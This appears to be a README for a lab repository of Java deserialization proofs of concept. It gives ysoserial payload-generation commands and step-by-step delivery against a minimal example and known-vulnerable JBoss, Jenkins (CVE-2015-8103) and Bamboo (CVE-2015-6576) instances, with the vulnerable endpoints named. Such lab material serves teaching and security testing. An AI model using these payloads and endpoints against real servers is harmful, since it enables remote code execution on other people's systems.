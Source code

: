 Here there are practical examples of the - deserialization of untrusted objects - vulnerability.

These use the ysoserial tool to generate exploits.

# Pocs

Minimal Example
---------------------------------
- Use java 8
- cd MinimalExample
- java -jar ../ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections6 "/tmp/exploit.sh">payload.ser 
- cp ./exploit.sh /tmp
- chmod +x /tmp/exploit.sh
- javac Employee.java
- javac DeSerializingObject.java
- java -classpath .:apache-collections-commons-collections-3.1.jar DeSerializingObject 
- You will find a file "pwned" in /tmp. This means that the attack has been completed correctly with a RCE.

JBOSS (CVE)
---------------------------------


- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Check if you have installed the JDK 1.8
- Run jboss: java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"



Jenkins (CVE-2015-8103)
---------------------------------

- Download a vulnerable version of Jenkins (in this case you can find the v1.649
- Check if you have installed the JDK 1.8
- java -jar ./jenkins-war-1.649.war
- java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"



Bamboo (CVE-2015-6576)
---------------------------------

- Download and install openjdk 1.7
	sudo add-apt-repository ppa:openjdk-r/ppa  
	sudo apt-get update   
	sudo apt-get install openjdk-7-jdk  
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
	java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser 
  or use the payload inside the folder JBoss


# Stacktraces
https://github.com/EdoardoVignati/ysoserial/tree/master/analyze

See the webpage on https://rawgit.com/EdoardoVignati/ysoserial/master/analyze/index.html

# References and readings
https://github.com/EdoardoVignati/ysoserial/blob/master/biblio.bib

Other references:

https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478

https://askubuntu.com/questions/761127/how-do-i-install-openjdk-7-on-ubuntu-16-04-or-higher


# Defenses
https://link.springer.com/chapter/10.1007/978-3-030-00470-5_21


